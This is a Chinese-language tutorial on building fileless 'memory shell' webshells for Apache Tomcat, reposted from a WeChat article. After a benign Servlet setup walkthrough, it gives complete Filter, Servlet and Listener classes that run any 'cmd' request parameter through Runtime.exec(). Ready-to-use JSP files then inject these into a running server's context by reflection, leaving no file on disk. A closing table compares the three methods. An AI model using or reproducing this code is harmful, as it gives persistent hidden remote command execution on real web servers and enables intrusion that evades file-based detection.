

[https://mp.weixin.qq.com/s/-jXAHHRCRilHrNN49QBcjQ](https://mp.weixin.qq.com/s/-jXAHHRCRilHrNN49QBcjQ)
## Servlet web介绍
Java Servlet 是运行在 Web 服务器或应用服务器上的程序，它是作为来自 Web 浏览器或其他 HTTP 客户端的请求和 HTTP 服务器上的数据库或应用程序之间的中间层。
使用 Servlet，您可以收集来自网页表单的用户输入，呈现来自数据库或者其他源的记录，还可以动态创建网页。
Java Servlet 通常情况下与使用 CGI（Common Gateway Interface，公共网关接口）实现的程序可以达到异曲同工的效果。但是相比于 CGI，Servlet 有以下几点优势

- 性能明显更好。
- Servlet 在 Web 服务器的地址空间内执行。这样它就没有必要再创建一个单独的进程来处理每个客户端请求。
- Servlet 是独立于平台的，因为它们是用 Java 编写的。
- 服务器上的 Java 安全管理器执行了一系列限制，以保护服务器计算机上的资源。因此，Servlet 是可信的。
- Java 类库的全部功能对 Servlet 来说都是可用的。它可以通过 sockets 和 RMI 机制与 applets、数据库或其他软件进行交互。


## 创建第一个Servlet web application
### step 1：使用idea 创建一个 web Application

### step 2：添加相关的依赖包（$tomcat/lib/servlet-api.jar）
右键项目 Open Moudle Setting 或者如下箭头的快捷键，添加依赖($tomcat/lib/.jar)


### step 3：新建Servlet


### step 4：配置Tomcat




这里有告警，说没有`artifacts`，首先确定是否Project Structure 下 Module里是否包含我们的项目


以及artifacts里是否有


确定都有再点fix


### step 5：启动项目
在创建的Servlet(Helloworld.class)中填写如下代码
```java
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

@WebServlet(name = "HelloWorld")
public class HelloWorld extends HttpServlet {
    private String message;
    public void init() throws ServletException{
        message = "This is my first Servlet Application";
    }
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }

    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // 设置:响应内容类型
        response.setContentType("text/html");
        // 输出文本
        PrintWriter out = response.getWriter();
        out.write("<h1> " + message + " </h1>");
    }
}

```
然后配置web.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>HelloWorld</servlet-name>
        <servlet-class>HelloWorld</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>HelloWorld</servlet-name>
        <url-pattern>/hello</url-pattern>
    </servlet-mapping>
</web-app>
```
然后回到HelloWorld.class，启动web


## Filter 动态注入内存
Filter是java web中的过滤器，会对客户端发送的请求进行过滤并做一些操作，我们可以在filter中写入命令执行的恶意文件，让客户端请求它来完成命令执行；
Filter 内存马是通过动态注册以一个恶意Filter，由于是动态注册的，所以这个filter没有文件实体，存在内存中，当tomcat重启就消失了（恕我直言，解决内存马最好的办法就是重启）
一般我们把这个Filter放在所有的filter最前面优先执行，这样我们的请求就不会受到其他filter的干扰

需要动态注册filter就需要添加filter相关的函数
### ServletContext
javax.servlet.servletContext中存在addFilter，addServlet，addListener方法，即添加Filter，Servlet，Listener
`this.getServletContext();`，`this.getServletConfig().getServletContext();` 是获取ServletContext的方法
### ApplicationContext
在Tomcat中，org.apache.catalina.core.ApplicationContext中包含一个ServletContext接口的实现，所以需要引入org.apache.catalina.core.ApplicationContext这个库，用它获取Context
### Filter相关变量

- filterMaps 变量：包含所有过滤器的URL映射关系
- filterDefs 变量：包含所有过滤器包括实例内部等变量
- filterConfigs 变量：包含所有与过滤器对应的filterDef信息及过滤器实例，进行过滤器进行管理

org.apache.catalina.core.ApplicationFilterConfig 在tomcat不同版本需要通过不同的库引入FilterMap和FilterDef
```java
import org.apache.catalina.deploy.FilterMap;
import org.apache.catalina.deploy.FilterDef;
```
```java
// tomcat 8/9
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
```
创建一个Filter，查看结构
```java
package Filter;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter(filterName = "FilterDemo")
public class FilterDemo implements Filter {
    public void destroy() {
    }

    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws ServletException, IOException {
        System.out.println("exec filter");
        chain.doFilter(req,resp);
    }

    public void init(FilterConfig config) throws ServletException {
        System.out.println("init filter");
    }

}

```
FilterDemo中有init，doFilter，destory三个重要方法
```
init()方法：初始化参数，在创建Filter时自动调用，当我们需要设置初始化参数的时候，可以写到该方法中。
doFilter()方法：拦截到要执行的请求时，doFilter就会执行。这里面写我们对请求和响应的预处理
destory()方法：在销毁Filter时自动调用
```
对我们来说，init和destory不需要做什么，只需要写一个doFilter方法拦截需要的请求，将其参数用于Runtime.getRuntime().exec()做命令执行，并将返回的数据打印到Response中即可，如下例：
```java
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
     String cmd = servletRequest.getParameter("cmd");
     if (cmd!= null) {
         Process process = Runtime.getRuntime().exec(cmd);
         java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                 new java.io.InputStreamReader(process.getInputStream()));
         StringBuilder stringBuilder = new StringBuilder();
         String line;
         while ((line = bufferedReader.readLine()) != null) {
             stringBuilder.append(line + '\n');
         }
         servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
         servletResponse.getOutputStream().flush();
         servletResponse.getOutputStream().close();
         return;
     }
     filterChain.doFilter(servletRequest, servletResponse);
 }
```
### 动态注入
我们将filter部分写好，下一步就是实现将其注入到内存中
```java
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        PrintWriter out = response.getWriter();
        ServletContext servletContext =  request.getSession().getServletContext();
        try{
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            String name = "filterDemo";
            //判断是否存在filterDemo这个filter，如果没有则准备创建
            if (filterConfigs.get(name) == null){
                //定义一些基础属性、类名、filter名等
                FilterDemo filter = new FilterDemo();
                FilterDef filterDef = new FilterDef();
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());
                filterDef.setFilter(filter);

                //添加filterDef
                standardContext.addFilterDef(filterDef);

                //创建filterMap，设置filter和url的映射关系,可设置成单一url如/xyz ,也可以所有页面都可触发可设置为/*
                FilterMap filterMap = new FilterMap();
                // filterMap.addURLPattern("/*");
                filterMap.addURLPattern("/xyz");
                filterMap.setFilterName(name);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                //添加我们的filterMap到所有filter最前面
                standardContext.addFilterMapBefore(filterMap);

                //反射创建FilterConfig，传入standardContext与filterDef
                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

                //将filter名和配置好的filterConifg传入
                filterConfigs.put(name,filterConfig);
                out.write("Inject success!");
            }
            else{
                out.write("Injected!");
            }
        }catch(Exception e){
            e.printStackTrace();
        }
    }
```


### JSP
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import = "org.apache.catalina.Context" %>
<%@ page import = "org.apache.catalina.core.ApplicationContext" %>
<%@ page import = "org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import = "org.apache.catalina.core.StandardContext" %>
<%@ page import = "javax.servlet.*" %>
<%@ page import = "java.io.IOException" %>
<%@ page import = "java.lang.reflect.Constructor" %>
<%@ page import = "java.lang.reflect.Field" %>
<%@ page import = "java.util.Map" %>
<!-- tomcat8/9 我这里测试环境是tomcat9，请根据实际情况更改引入的包-->
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>

<%
  class filterDemo implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
      String cmd = servletRequest.getParameter("cmd");
      if (cmd!= null) {
        Process process = Runtime.getRuntime().exec(cmd);
        java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream()));
        StringBuilder stringBuilder = new StringBuilder();
        String line;
        while ((line = bufferedReader.readLine()) != null) {
          stringBuilder.append(line + '\n');
        }
        servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
        servletResponse.getOutputStream().flush();
        servletResponse.getOutputStream().close();
        return;
      }
      filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }

  }
%>


<%
  //从org.apache.catalina.core.ApplicationContext反射获取context方法
  ServletContext servletContext =  request.getSession().getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
  Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
  Configs.setAccessible(true);
  Map filterConfigs = (Map) Configs.get(standardContext);

  String name = "filterDemo";
//判断是否存在filterDemo1这个filter，如果没有则准备创建
  if (filterConfigs.get(name) == null){
    //定义一些基础属性、类名、filter名等
    filterDemo filter = new filterDemo();
    FilterDef filterDef = new FilterDef();
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    filterDef.setFilter(filter);

    //添加filterDef
    standardContext.addFilterDef(filterDef);

    //创建filterMap，设置filter和url的映射关系,可设置成单一url如/xyz ,也可以所有页面都可触发可设置为/*
    FilterMap filterMap = new FilterMap();
    // filterMap.addURLPattern("/*");
    // 这里可根据实际情况添加拦截器拦截的路由
    filterMap.addURLPattern("/xyz");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    //添加我们的filterMap到所有filter最前面
    standardContext.addFilterMapBefore(filterMap);

    //反射创建FilterConfig，传入standardContext与filterDef
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

    //将filter名和配置好的filterConifg传入
    filterConfigs.put(name,filterConfig);
    out.write("Inject success!");
  }
  else{
    out.write("Injected!");
  }
%>
```
## Servlet 动态注入内存
要了解Servlet动态注入内存，那么就需要对Servlet的生命周期要有一定的了解
### Servlet 生命周期
Servlet 生命周期可被定义为从创建直到毁灭的整个过程。以下是 Servlet 遵循的过程：

- Servlet 初始化后调用 init () 方法。
- Servlet 调用 service() 方法来处理客户端的请求。
- Servlet 销毁前调用 destroy() 方法。
- 最后，Servlet 是由 JVM 的垃圾回收器进行垃圾回收的。


#### init() 方法
init 方法被设计成只调用一次。它在第一次创建 Servlet 时被调用，在后续每次用户请求时不再调用。因此，它是用于一次性初始化，就像 Applet 的 init 方法一样。
Servlet 创建于用户第一次调用对应于该 Servlet 的 URL 时，但是您也可以指定 Servlet 在服务器第一次启动时被加载。
当用户调用一个 Servlet 时，就会创建一个 Servlet 实例，每一个用户请求都会产生一个新的线程，适当的时候移交给 doGet 或 doPost 方法。init() 方法简单地创建或加载一些数据，这些数据将被用于 Servlet 的整个生命周期
#### service() 方法
service() 方法是执行实际任务的主要方法。Servlet 容器（即 Web 服务器）调用 service() 方法来处理来自客户端（浏览器）的请求，并把格式化的响应写回给客户端。
每次服务器接收到一个 Servlet 请求时，服务器会产生一个新的线程并调用服务。service() 方法检查 HTTP 请求类型（GET、POST、PUT、DELETE 等），并在适当的时候调用 doGet、doPost、doPut，doDelete 等方法

service() 方法由容器调用，service 方法在适当的时候调用 doGet、doPost、doPut、doDelete 等方法。所以，您不用对 service() 方法做任何动作，您只需要根据来自客户端的请求类型来重写 doGet() 或 doPost() 即可。
doGet() 和 doPost() 方法是每次服务请求中最常用的方法
#### doGet() 方法
GET 请求来自于一个 URL 的正常请求，或者来自于一个未指定 METHOD 的 HTML 表单，它由 doGet() 方法处理
#### doPost() 方法
POST 请求来自于一个特别指定了 METHOD 为 POST 的 HTML 表单，它由 doPost() 方法处理
#### destroy() 方法
destroy() 方法只会被调用一次，在 Servlet 生命周期结束时被调用。destroy() 方法可以让您的 Servlet 关闭数据库连接、停止后台线程、把 Cookie 列表或点击计数器写入到磁盘，并执行其他类似的清理活动。
在调用 destroy() 方法之后，servlet 对象被标记为垃圾回收
### service方法
在service方法中，Servlet容器在此生命周期中会处理每次来的请求，就像是“拦截器”一般
```java
// ServletTest
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

@WebServlet(name = "ServletTest")
public class ServletTest extends HttpServlet {
    @Override
    public void init() throws ServletException {
        System.out.println("init");
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        System.out.println("Servlet Service Test");
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }

    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // 设置:响应内容类型
        response.setContentType("text/html");
        // 输出文本
        PrintWriter out = response.getWriter();
        out.write("<h1> Test </h1>");
    }
}

```
```java
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>Helloworld</servlet-name>
        <servlet-class>Helloworld</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>Helloworld</servlet-name>
        <url-pattern>/hello</url-pattern>
    </servlet-mapping>
    <servlet>
        <servlet-name>ServletTest</servlet-name>
        <servlet-class>ServletTest</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>ServletTest</servlet-name>
        <url-pattern>/test</url-pattern>
    </servlet-mapping>
</web-app>
```
可以看到每刷新一次，就会打印service生命周期中的`Servlet Service Test`，而最重要的是没有进入doGet()，相信大家也明白什么意思了
### 动态注入
我们在service中写入恶意代码，这里还是以ServletTest.java文件为例，已删除web.xml中ServletTest的路由了
```java
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebServlet(name = "ServletTest")
public class ServletTest extends HttpServlet {
    @Override
    public void init() throws ServletException {
        System.out.println("init");
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }

    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }
}

```
获取context部分与filter中相同,仍然从org.apache.catalina.core.ApplicationContext反射获取
```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```
然后需要将上文写的servlet封装成wrapper再使用context添加
```java
ServletTest demo = new ServletTest();
org.apache.catalina.Wrapper wrapper = standardContext.createWrapper();
wrapper.setName("xyz");
wrapper.setLoadOnStartup(1);
wrapper.setServlet(demo);
wrapper.setServletClass(demo.getClass().getName());
standardContext.addChild(wrapper);
standardContext.addServletMapping("/xyz","xyz");
out.println("injected Servlet success!");
```
在Helloworld 这个servlet中，我们将代码写入
```java
import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import java.io.IOException;
import java.io.PrintWriter;
import java.lang.reflect.Field;

public class Helloworld extends javax.servlet.http.HttpServlet {
    private String message;
    public void init() throws ServletException{
        message = "This is my first servlet application";
    }
    protected void doPost(javax.servlet.http.HttpServletRequest request, javax.servlet.http.HttpServletResponse response) throws javax.servlet.ServletException, IOException {

    }

    protected void doGet(javax.servlet.http.HttpServletRequest request, javax.servlet.http.HttpServletResponse response) throws javax.servlet.ServletException, IOException {
        PrintWriter out = response.getWriter();
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            ServletTest demo = new ServletTest();
            Wrapper wrapper = standardContext.createWrapper();
            wrapper.setName("xyz");
            wrapper.setLoadOnStartup(1);
            wrapper.setServlet(demo);
            wrapper.setServletClass(demo.getClass().getName());
            standardContext.addChild(wrapper);
            // 这里是增加ServletMapping
            standardContext.addServletMapping("/xyz","xyz");
            out.println("injected Servlet success!");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
效果如下：


### JSP
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import = "org.apache.catalina.core.ApplicationContext"%>
<%@ page import = "org.apache.catalina.core.StandardContext"%>
<%@ page import = "javax.servlet.*"%>
<%@ page import = "java.io.IOException"%>
<%@ page import = "java.lang.reflect.Field"%>


<%
  class ServletDemo implements Servlet{
    @Override
    public void init(ServletConfig config) throws ServletException {}
    @Override
    public String getServletInfo() {return null;}
    @Override
    public void destroy() {}    public ServletConfig getServletConfig() {return null;}

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
      String cmd = servletRequest.getParameter("cmd");
      if (cmd != null) {
        Process process = Runtime.getRuntime().exec(cmd);
        java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream()));
        StringBuilder stringBuilder = new StringBuilder();
        String line;
        while ((line = bufferedReader.readLine()) != null) {
          stringBuilder.append(line + '\n');
        }
        servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
        servletResponse.getOutputStream().flush();
        servletResponse.getOutputStream().close();
        return;
      }
    }
  }
%>


<%
  ServletContext servletContext =  request.getSession().getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
  ServletDemo demo = new ServletDemo();
  org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();

//设置Servlet名等
  demoWrapper.setName("xyz");
  demoWrapper.setLoadOnStartup(1);
  demoWrapper.setServlet(demo);
  demoWrapper.setServletClass(demo.getClass().getName());
  standardContext.addChild(demoWrapper);

//设置ServletMap
  standardContext.addServletMapping("/abc", "xyz");
  out.println("inject servlet success!");
%>
```
遇到500 不要慌，访问/abc试一试


## Listener 动态注入内存
监听器就是监听某个对象的的状态变化的组件，监听器的相关概念：

- 事件源：被监听的对象  ----- 三个域对象 request  session  servletContext
- 监听器：监听事件源对象  事件源对象的状态的变化都会触发监听器
- 注册监听器：将监听器与事件源进行绑定
- 响应行为：监听器监听到事件源的状态变化时 所涉及的功能代码
### ServletRequestListener 接口
该接口实现的方法有`requestDestroyed`，`requestInitialized`，分别是在监听request请求结束，以及request请求开始，我们着重看请求开始的部分
```java
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class ListenerDemo implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        
    }
}

```
在`requestInitialized`这个函数中，我们从`servletRequestEvent`参数中取cmd参数，在当前上下文只要在任意路由下监听到了cmd参数存在值，那么就执行命令，具体操作如下
```java
public void requestInitialized(ServletRequestEvent servletRequestEvent) {
    String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
    if(cmd != null){
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {}
    }
}
```
注意，这里是无回显的
### 动态注入
在Helloworld这个Servlet中，获取context，并将listener添加进去，具体如下
```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
ListenerDemo listenerDemo = new ListenerDemo();
standardContext.addApplicationEventListener(listenerDemo);
out.println("inject success");
```
因为无回显，所以我们只能执行命令，如弹出计算器

### JSP
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>

<%
class S implements ServletRequestListener{
    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
        
    }
    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
        if(cmd != null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {}
        }
    }
}
%>

<%
ServletContext servletContext =  request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
S servletRequestListener = new S();
standardContext.addApplicationEventListener(servletRequestListener);
out.println("inject success");
%>
```
## 总结
以上三种根据Servlet的特性，动态注入，jsp文件只要落地，即可动态加载到内存中

| 姿势 | 优点 | 缺点 |
| --- | --- | --- |
| Filter |1.通过添加全局拦截器对参数进行拦截，来进行恶意代码执行<br />2.通过添加filtermap，可以随便设置路由，所有请求都会过该拦截器|1.引入`filterMaps`，`filterDef`，要根据tomcat版本来判断<br />2.代码量较高|
| Servlet |1. 简单方便，了解Servlet生命周期即可<br />2.更直观了解如何动态添加ServletMapping<br />|1.无法使所有参数都经过恶意代码，只能在我们自己设定的url中才能触发|
| Listener |1. 简单方便，通过添加监听器对request进行监控<br />2. 在任意url中都能设置我们监听的参数|1. 只要监听的参数含有就会进入监听代码中<br />2. 如果在该jsp页面下访问，则会重放请求|
